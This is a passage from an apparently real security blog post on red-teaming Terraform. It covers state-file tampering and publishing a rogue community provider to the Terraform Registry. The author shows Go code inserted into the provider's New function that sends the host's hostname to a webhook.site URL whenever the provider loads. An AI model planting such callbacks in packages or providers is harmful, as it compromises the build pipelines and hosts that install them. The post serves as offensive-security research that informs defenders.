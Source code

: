 A quirk of this approach is that the original resource whose ID was changed in the state file, never gets deleted and a duplicate is created. This might get noticed quickly.

![](https://blog.plerion.com/wp-content/uploads/2024/02/two-running-instances.png)
There are situations where deleting a resource is enough to move a rampaging red teamer (you) closer to their objective. For example, some controls fail open when a resource or API is unavailable. A [cloud-init remote code execution technique](https://github.com/dagrz/aws_pwn/blob/master/elevation/bouncy_bouncy_cloudy_cloud.py) discovered in 2016 requires an instance to be rebooted.

But a true Head of State is all powerful and does not bow to niche circumstance. They demand full pwnership!

#### Executing code and pwning pipelines

Let’s revisit the initialize step (#3), where the installed Terraform software finds any providers required and installs them. So far we’ve been working exclusively with the AWS provider, but [what is a provider and where do they come from?](https://developer.hashicorp.com/terraform/language/providers)

![](https://blog.plerion.com/wp-content/uploads/2024/02/where-do-providers-come-from.png)
There are almost 4000 providers in the Terraform Registry. The most popular ones are what you would expect – AWS, Azure, GCP, Kube, etc. The majority of the 4000 are not big official thingos though, they are “community providers”, written by fine folks such as Dear Reader.

![](https://blog.plerion.com/wp-content/uploads/2024/02/terraform-registry.png)
Do you smell opportunity? If we can create and publish a custom provider, maybe we can get it to run our evil red team code. Spoiler: we can, and it will.

Hashicorp has done a fantastic job of documenting the process for [creating a custom provider](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider). It’s fiddly and requires a little Go coding but is quite simple. It boils down to cloning [this repo](https://github.com/hashicorp/terraform-provider-scaffolding-framework) and tweaking it until Terraform gives in to your will.

A provider can be deployed and run locally but to use it in anger it has to be published to the Terraform Registry. This too is [well documented](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-release-publish) and easy. Provider code must live in a public Github repo named “terraform-provider-NAME” and the Terraform Registry must be granted access to it via oauth. The rest is a matter of clicking the “Publish” button and selecting the right repo.

Time to take it for a test drive! Naturally, our provider will be named Terrarizer. No take backs.

I’ve never written Go in my life but the “New” function in the “provider.go” file looks like the right place to put some attack test code. If a custom provider ever gets instantiated, it will probably call this function. Here’s how I modified “New”:

```
func New(version string) func() provider.Provider {
	hostname, err := os.Hostname()
	if err != nil {
		hostname = "unknown"
	}

	resp, err := http.Get("https://webhook.site/ca90f047-d88c-48b4-8cf2-5bf3b8aa9132/New/" + hostname)
	if err != nil {
		log.Printf("Error sending request: %s", resp.Status)
	}

	return func() provider.Provider {
		return &amp;ScaffoldingProvider{
			version: version,
		}
	}
}
```